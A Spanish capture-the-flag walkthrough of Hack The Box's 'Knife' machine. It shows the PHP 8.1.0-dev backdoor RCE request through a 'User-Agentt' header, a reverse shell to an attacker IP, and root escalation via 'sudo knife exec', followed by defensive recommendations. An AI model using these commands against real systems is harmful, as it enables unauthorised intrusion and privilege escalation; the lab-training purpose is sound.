# Knife — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** MrKN16H7  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · WhatWeb · PHP 8.1.0-dev Backdoor · User-Agentt RCE · Reverse Shell · TTY Treatment · Sudo Abuse · GTFOBins · knife exec

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — PHP 8.1.0-dev Backdoor](#3-acceso-inicial--php-810-dev-backdoor)
4. [Obtención de shell y tratamiento de la TTY](#4-obtención-de-shell-y-tratamiento-de-la-tty)
5. [Escalada de privilegios — Sudo knife](#5-escalada-de-privilegios--sudo-knife)
6. [Post-explotación y flags](#6-post-explotación-y-flags)
7. [Lección aprendida](#7-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.37.169
```



Salida obtenida:

```text
64 bytes from 10.129.37.169: icmp_seq=1 ttl=63 time=32.5 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP. Solo necesitamos verificar conectividad. El valor `TTL=63` indica que estamos frente a una máquina Linux (TTL inicial de 64 menos un salto de red).

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.37.169 -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza una velocidad mínima de 5000 paquetes por segundo |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
22/tcp open  ssh
80/tcp open  http
```

> 💡 Una superficie de ataque tan reducida (solo SSH y HTTP) obliga a centrar toda la enumeración en el servicio web.

---

## 2. Enumeración del servicio web

Una vez identificados los puertos abiertos, realizamos un escaneo más profundo con detección de versiones y scripts NSE.

```bash
nmap -sS -sCV -T5 -p22,80 10.129.37.169 -oN Ports
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

Salida relevante:

```text
22/tcp open  ssh   OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http  Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> 💡 La página `Emergent Medical Idea` apunta a un sitio web genérico. Sin embargo, Nmap no siempre revela el verdadero **stack tecnológico** que hay detrás. Antes de buscar vulnerabilidades a ciegas conviene huellar el servidor con herramientas específicas.

---

### Identificación del stack web con WhatWeb

```bash
whatweb http://10.129.37.169
```



Salida relevante:

```text
http://10.129.37.169 [200 OK] Apache[2.4.41], HTML5,
HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)],
IP[10.129.37.169], PHP[8.1.0-dev], Script,
Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

> 💡 La cabecera `X-Powered-By: PHP/8.1.0-dev` es **la pista crítica** de la máquina. Esta versión específica de PHP nunca llegó a release estable: contiene un **backdoor introducido en el árbol Git oficial** durante un compromiso del servidor en marzo de 2021. Aunque fue revertido en horas, las builds intermedias se siguen distribuyendo en entornos vulnerables.

---

## 3. Acceso inicial — PHP 8.1.0-dev Backdoor

### Descripción de la vulnerabilidad

El backdoor inyectado en PHP 8.1.0-dev permite ejecutar comandos arbitrarios enviando una cabecera HTTP `User-Agentt` (con doble `t`) cuyo valor empieza por `zerodium`. El intérprete evalúa el resto del valor como código PHP en el contexto del servidor.

```text
GET / HTTP/1.1
Host: 10.129.37.169
User-Agentt: zerodiumsystem("id");
```

> 💡 La doble `t` en `User-Agentt` no es un error tipográfico nuestro: es exactamente el header que la puerta trasera busca. Esto hace que el ataque sea **trivialmente automatizable** y muy difícil de detectar sin firmas específicas.

---

### Localización del PoC

Buscamos un PoC público en GitHub que automatice la generación de la reverse shell.



El repositorio [flast101/php-8.1.0-dev-backdoor-rce](https://github.com/flast101/php-8.1.0-dev-backdoor-rce) contiene dos scripts útiles:

| Script | Función |
|---|---|
| `backdoor_php_8.1.0-dev.py` | Ejecuta comandos uno a uno tipo shell interactiva |
| `revshell_php_8.1.0-dev.py` | Lanza directamente una reverse shell hacia el atacante |

---

### Clonado del exploit

```bash
git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
```



---

## 4. Obtención de shell y tratamiento de la TTY

Antes de disparar el exploit, iniciamos un listener con Netcat en otra terminal.

```bash
nc -lvnp 443
```

### Explicación

| Parámetro | Función |
|---|---|
| `-l` | Modo escucha |
| `-v` | Verbose |
| `-n` | No resuelve DNS |
| `-p 443` | Puerto de escucha (443 evade habitualmente filtrados de salida) |

A continuación lanzamos la reverse shell mediante el script clonado.

```bash
python3 revshell_php_8.1.0-dev.py http://10.129.37.169 10.10.14.63 443
```



### Explicación de parámetros del exploit

| Parámetro | Función |
|---|---|
| `http://10.129.37.169` | URL objetivo vulnerable |
| `10.10.14.63` | IP del atacante (LHOST) |
| `443` | Puerto a la escucha (LPORT) |

Inmediatamente recibimos la conexión:



```text
listening on [any] 443 ...
connect to [10.10.14.63] from (UNKNOWN) [10.129.37.169] 53038
bash: cannot set terminal process group (907): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$
```

> 💡 La shell se ejecuta directamente como el usuario `james`, no como `www-data`. Esto indica que el servicio web está corriendo en el contexto del propio usuario, algo poco frecuente y que **acelera el avance**: no necesitamos un pivot intermedio.

---

### Tratamiento de la TTY

La shell obtenida no es interactiva. Realizamos un tratamiento completo para conseguir una sesión funcional.

```bash
script /dev/null -c bash
# Ctrl + Z para suspender la shell
stty raw -echo; fg
reset xterm
```



### Explicación del tratamiento

| Comando | Función |
|---|---|
| `script /dev/null -c bash` | Genera una pseudo-TTY real descartando el log |
| `Ctrl + Z` | Suspende la shell remota y devuelve el control a nuestra terminal |
| `stty raw -echo` | Desactiva el eco local y el procesamiento de caracteres |
| `fg` | Reanuda la shell remota en primer plano |
| `reset xterm` | Reinicializa la terminal con un tipo de terminal válido |

Finalmente fijamos las variables de entorno y el tamaño correcto de la terminal:

```bash
export SHELL=bash
export TERM=xterm
stty rows 24 columns 80
```



> 💡 Tras este tratamiento podemos usar `sudo`, autocompletado con `Tab`, historial con flechas y editores interactivos sin perder la sesión.

---

## 5. Escalada de privilegios — Sudo knife

### Enumeración de permisos sudo

Revisamos qué comandos puede ejecutar `james` mediante `sudo`.

```bash
sudo -l
```



Resultado:

```text
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

> 💡 La directiva `NOPASSWD` combinada con `/usr/bin/knife` permite a `james` ejecutar **knife** como `root` sin contraseña. `knife` es la utilidad de línea de comandos de **Chef**, una plataforma de gestión de configuración. Su funcionalidad de `exec` permite ejecutar código Ruby arbitrario, lo que se traduce en **RCE como root** vía configuración.

---

### Consulta de GTFOBins

Verificamos el método de abuso de `knife` en [GTFOBins](https://gtfobins.github.io/gtfobins/knife/).



El método **Sudo / Inherit** indica que `knife exec -E '...'` ejecuta código Ruby con los privilegios del proceso. Como Ruby permite invocar la syscall `exec`, podemos lanzar una shell directamente.

### Explicación del payload

| Componente | Función |
|---|---|
| `sudo -u root` | Ejecuta el comando como el usuario `root` |
| `knife` | Binario permitido en la política `sudoers` |
| `exec -E '...'` | Evalúa una cadena Ruby (`-E` ≡ "evaluate expression") |
| `exec "/bin/bash"` | Reemplaza el proceso Ruby por una shell Bash |

---

### Obtención de shell como root

```bash
sudo -u root knife exec -E 'exec "/bin/bash"'
whoami
```



Resultado:

```text
root@knife:/home/james# whoami
root
```

✅ Compromiso total de la máquina.

---

## 6. Post-explotación y flags

Con privilegios de `root` localizamos ambas flags del sistema.

```bash
cat /home/james/user.txt
cat /root/root.txt
```

✅ Máquina completada.

---

## 7. Lección aprendida

Esta máquina ilustra cómo una versión de software comprometida y una política de `sudo` excesivamente permisiva permiten un compromiso total en muy pocos pasos.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| PHP 8.1.0-dev con backdoor | Servidor web (`X-Powered-By`) | Ejecución remota de comandos no autenticada |
| Header `User-Agentt: zerodium...` | Cualquier petición HTTP | Vector trivial de RCE |
| Servicio web ejecutado como usuario `james` | Apache + PHP | Acceso directo a un usuario real, sin pivot |
| Sudoers permisivo con `knife` | `/usr/bin/knife` (NOPASSWD) | Escalada directa a root |
| Funcionalidad `exec` de Chef knife | GTFOBins | Ejecución de código Ruby arbitrario como root |

---

## Recomendaciones defensivas

- Nunca usar versiones *dev* de PHP en producción; mantener siempre la rama estable más reciente y verificar la integridad de las builds.
- Configurar reglas de WAF que detecten cabeceras anómalas (`User-Agentt`, payloads tipo `zerodium...`).
- Ejecutar los servicios web bajo usuarios dedicados y de bajo privilegio (`www-data`), nunca bajo cuentas reales del sistema.
- Auditar `/etc/sudoers` regularmente, evitando entradas `NOPASSWD` y limitando los binarios permitidos a comandos sin capacidad de evasión.
- Consultar [GTFOBins](https://gtfobins.github.io/) durante el endurecimiento para identificar binarios susceptibles de abuso vía sudo.
- Monitorizar la ejecución de utilidades de gestión de configuración (`knife`, `ansible-playbook`, `puppet apply`) por parte de usuarios no autorizados.
- Aplicar segmentación de red y mecanismos EDR que alerten sobre conexiones salientes desde procesos web hacia direcciones externas.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
